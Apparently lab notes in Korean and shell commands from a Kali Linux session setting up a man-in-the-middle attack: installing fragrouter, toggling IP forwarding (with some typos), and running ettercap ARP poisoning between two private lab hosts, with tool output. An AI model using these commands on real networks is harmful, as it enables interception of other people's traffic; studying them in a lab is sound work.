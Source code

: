

root@kali-04:~/Desktop# apt-get -y install fragrouter

root@kali-04:~/Desktop# fragrouter -B1 // 실제 목적지 넘겨줌





#### Kernel Forwarding

root@kali-04:~/Desktop# vim /etc/sysctl.conf

```
net.ipv4.ip_formwar=1 주석 해제
```

root@kali-04:~/Desktop# sysctl -p

```
net.ipv4.ip_forward = 1 // 활성화 완료
```

#### Softsware Forwarding

root@kali-04:~/Desktop# vim /etc/sysctl.conf

```
net.ipv4.ip_formwar=0
```

root@kali-04:~/Desktop# sysctl -p

```
net.ipv4.ip_forward = 0
```



### ettercap

###### 칼리

root@kali-04:~/Desktop# ettercap -T -i eth0 -M arp:remote //172.16.10.10// //172.16.10.20//

```
ettercap 0.8.3.1 copyright 2001-2020 Ettercap Development Team

Actual changes:
tx-generic-segmentation: off
rx-gro: off
tx-tcp-segmentation: off
Listening on:
  eth0 -> 00:04:56:2F:D6:56
          172.16.10.30/255.255.255.0
          fe80::204:56ff:fe2f:d656/64

SSL dissection needs a valid 'redir_command_on' script in the etter.conf file
Privileges dropped to EUID 65534 EGID 65534...

  34 plugins
  42 protocol dissectors
  57 ports monitored
28230 mac vendor fingerprint
1766 tcp OS fingerprint
2182 known services
Lua: no scripts were specified, not starting up!

Scanning for merged targets (2 hosts)...

* |==================================================>| 100.00 %

2 hosts added to the hosts list...
```